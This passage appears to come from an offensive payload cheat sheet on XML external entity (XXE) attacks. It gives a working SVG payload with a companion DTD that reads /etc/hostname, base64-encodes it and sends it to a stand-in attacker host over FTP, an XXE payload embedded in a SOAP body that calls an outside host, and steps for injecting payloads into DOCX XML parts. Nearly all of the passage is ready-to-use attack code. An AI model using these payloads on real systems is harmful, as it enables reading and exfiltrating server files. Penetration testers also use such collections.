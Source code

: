 **OOB via SVG rasterization**

*xxe.svg*

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

*xxe.xml*

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

### XXE inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`
